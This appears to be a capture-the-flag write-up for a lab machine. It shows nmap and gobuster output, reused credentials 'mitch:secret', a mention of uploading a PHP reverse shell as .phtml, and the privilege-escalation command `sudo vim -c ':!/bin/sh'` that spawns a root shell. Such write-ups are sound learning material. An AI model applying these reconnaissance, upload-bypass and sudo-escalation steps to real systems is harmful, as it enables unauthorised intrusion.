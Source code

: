 # nmap

```shell
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-17 13:48 IST
Nmap scan report for 10.10.181.115
Host is up (0.18s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.4.58
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

Looking in `ftp` found `/pub/ForMitch.txt` which was about bad credential 

Looking at port 80 and running gobuster and found `http://10.10.181.115/simple/` 

and running gobuster again on `/simple`

```
/index.php  (Status: 200) [Size: 19993]
/modules    (Status: 301) [Size: 323] [--> http://10.10.181.115/simple/modules/]
/uploads    (Status: 301) [Size: 323] [--> http://10.10.181.115/simple/uploads/]
/doc        (Status: 301) [Size: 319] [--> http://10.10.181.115/simple/doc/]    
/admin      (Status: 301) [Size: 321] [--> http://10.10.181.115/simple/admin/]  
/assets     (Status: 301) [Size: 322] [--> http://10.10.181.115/simple/assets/] 
/lib        (Status: 301) [Size: 319] [--> http://10.10.181.115/simple/lib/]    
/install.php (Status: 301) [Size: 0] [--> /simple/install.php/index.php]         
/config.php  (Status: 200) [Size: 0]                                             
/tmp         (Status: 301) [Size: 319] [--> http://10.10.181.115/simple/tmp/]  
```

found login page and 

![image-20220517153154516](C:\Users\pro\AppData\Roaming\Typora\typora-user-images\image-20220517153154516.png)

**cms Credential** `mitch:secret` and the same Credential were also used for `ssh` on port `2222`

we can also upload `php reverse shell` by changing its extension to `.phtml`  

login into the ssh and run `sudo -l` found vim 

![image-20220517155957792](C:\Users\pro\AppData\Roaming\Typora\typora-user-images\image-20220517155957792.png)

used `sudo vim -c ':!/bin/sh'` command to escalate privilage.